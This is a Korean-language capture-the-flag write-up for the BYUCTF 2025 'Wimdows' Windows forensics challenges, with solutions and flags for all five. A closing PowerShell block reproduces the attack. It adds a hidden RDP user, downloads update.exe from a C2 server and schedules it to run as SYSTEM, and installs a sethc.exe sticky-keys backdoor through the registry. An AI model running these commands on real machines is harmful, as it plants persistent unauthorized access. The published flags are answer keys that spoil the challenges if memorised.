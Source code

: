 # 🪟 BYUCTF 2025 - Wimdows 시리즈

## 🖥️ 공통 정보

- 문제 유형: Windows 포렌식 (디스크/로그 기반 분석)
- 제공 파일: [Windows 가상 머신 다운로드](https://byu.box.com/v/byuctf-wimdows)  
- 로그인 정보: `vagrant / vagrant`
- 공통 힌트: 모든 문제는 **Event Viewer (이벤트 로그)** 및 **System** 분석으로 해결 가능함

---

## 1️⃣ Wimdows 1 - Exploited CVE 찾기

### 🔍 설명

공격자가 Windows 서버에 침투함. 어떤 취약점을 이용해 셸을 얻었는지 파악해야 함.  
플래그 형식: `byuctf{CVE-YYYY-NNNN}`

### 🛠️ 풀이 요약

- System 로그에서 `elasticsearch-service-x64.exe`를 부모로 하는 SYSTEM 권한 프로세스 다수 발견
- 해당 ElasticSearch 버전: **1.1.1**
- 관련 CVE 중 **RCE가 가능한 유일한 취약점**: `CVE-2014-3120`
- ![image](https://github.com/user-attachments/assets/30a7b886-848e-4250-8f69-43bdd03d183a)


### ✅ 정답

byuctf{CVE-2014-3120}



---

## 2️⃣ Wimdows 2 - 숨겨진 명령 내역

### 🔍 설명

공격자가 침투 후 명령어를 실행했지만, 로그를 은폐하려고 시도함.  
Event Log에서 흔적을 찾아야 함.  
플래그는 이미 `byuctf{}` 형식으로 숨겨져 있음.

### 🛠️ 풀이 요약

- Windows Event Log > PowerShell 로그 확인
- Base64 인코딩된 명령어들 중 하나에 플래그 포함됨

### ✅ 정답

byuctf{n0w_th4t5_s0m3_5u5_l00k1ng_p0w3rsh3ll_139123}


---

## 3️⃣ Wimdows 3 - 공격자가 만든 계정의 그룹

### 🔍 설명

공격자가 만든 새로운 계정을 어떤 그룹에 추가했는지 확인해야 함  
예시 형식: `byuctf{Remote Desktop Users}`  
대소문자 무시

### 🛠️ 풀이 요약

- Event Log에서 `phasma` 사용자 계정이 `Remote Desktop Users` 그룹에 추가된 이벤트 확인

### ✅ 정답

byuctf{Remote Desktop Users}


---

## 4️⃣ Wimdows 4 - C2 바이너리 및 서버 IP

### 🔍 설명

공격자가 C2 바이너리를 배포함.  
사용된 C2 프레임워크와 해당 C2 서버 IP를 확인해야 함.  
형식: `byuctf{<c2 framework>_<ip address>}`

### 🛠️ 풀이 요약

- `C:\Windows\System32\update.exe` 확인
- VirusTotal에 업로드하여 C2 프레임워크가 **Sliver**임을 확인
- Netstat 등으로 서버 IP 확인: `192.168.1.224`

### ✅ 정답

byuctf{sliver_192.168.1.224}


---

## 5️⃣ Wimdows 5 - SYSTEM 권한 백도어

### 🔍 설명

공격자가 SYSTEM 권한을 얻기 위해 설치한 **백도어**를 찾아야 함  
답은 `byuctf{}` 형식으로 Registry에 숨겨져 있음

### 🛠️ 풀이 요약

- Sysmon에서 `sethc.exe`에 대한 `IFEO (Image File Execution Options)` 레지스트리 키 수정 확인
- `sethc.exe`가 `cmd.exe`로 리디렉션되어 있으며, 값 뒤에 주석 형태로 플래그 포함됨

### ✅ 정답

byuctf{00p5_4ll_b4ckd00r5_139874}


---

## 🛠️ 참고: 공격 재현 과정

```powershell
# Wimdows 2
whoami /priv
ls -l
write-output 'byuctf{n0w_th4t5_s0m3_5u5_l00k1ng_p0w3rsh3ll_139123}'
get-process
get-service

# Wimdows 3
net user phasma f1rst0rd3r! /add
New-Item -Path "HKLM:\...\UserList" -Force | Out-Null
New-ItemProperty -Path "HKLM:\...\UserList" -Name "phasma" -Value 0 -PropertyType DWord -Force
net localgroup "Remote Desktop Users" phasma /add

# Wimdows 4
Invoke-WebRequest -Uri "http://${server_ip}:8000/update.exe" -OutFile "C:\Windows\System32\update.exe"
schtasks /create /tn "updates" /tr "C:\Windows\System32\update.exe" /ru 'SYSTEM' /sc onstart /rl highest
schtasks /run /tn "updates"

# Wimdows 5 (in Sliver)
REG ADD "HKLM\...\sethc.exe" /v Debugger /d "C:\windows\system32\cmd.exe #byuctf{00p5_4ll_b4ckd00r5_139874}" /f
